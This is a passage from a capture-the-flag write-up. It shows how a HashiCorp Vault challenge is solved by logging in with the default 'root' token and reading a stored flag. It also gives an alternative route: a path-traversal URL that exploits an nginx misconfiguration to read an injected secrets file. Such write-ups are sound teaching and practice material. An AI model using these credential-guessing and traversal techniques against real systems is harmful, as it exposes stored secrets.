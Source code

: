 
Next, we set the environment variable `VAULT_ADDR` and authenticate. I actually
got lucky on trying to login with `root` as the argument.

```console
$ export VAULT_ADDR=http://vault.vault:8200

$ ./vault login root
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                root
token_accessor       aPpqqqicK0QC4ZW9t1hZ244c
token_duration       ∞
token_renewable      false
token_policies       ["root"]
identity_policies    []
policies             ["root"]

$ ./vault read kv/data/flag_for_secret
Key         Value
---         -----
data        map[flag_for_secret:wgmy{352ce22be3caed452e616b655db7cb20}]
metadata    map[created_time:2023-12-15T13:42:49.553430131Z custom_metadata:<nil> deletion_time: destroyed:false version:1]
```

flag: `wgmy{352ce22be3caed452e616b655db7cb20}`

## Alternative Solution

Based on this [link](https://developer.hashicorp.com/vault/tutorials/kubernetes/kubernetes-sidecar#inject-secrets-into-the-pod),
the secret is injected somewhere in the filesystem.

> `vault.hashicorp.com/agent-inject-secret-database-config.txt: 'internal/data/database/config'`
>
> `agent-inject-secret-FILEPATH` prefixes the path of the file, `database-config.txt` written to the `/vault/secrets` directory. The value is the path to the secret defined in Vault. 

Thus, looking at the deployments metadata, we could see that the flag could be
retrieved from `/vault/secrets/flag` by leveraging the previous `nginx` misconfiguration LFI.

```yaml
        vault.hashicorp.com/agent-inject: "true"
        vault.hashicorp.com/agent-inject-secret-flag: kv/data/flag_for_secret
        vault.hashicorp.com/role: wgmy
```

Payload:

```text
http://warmup.wargames.my/static../../../../../../../../vault/secrets/flag
```
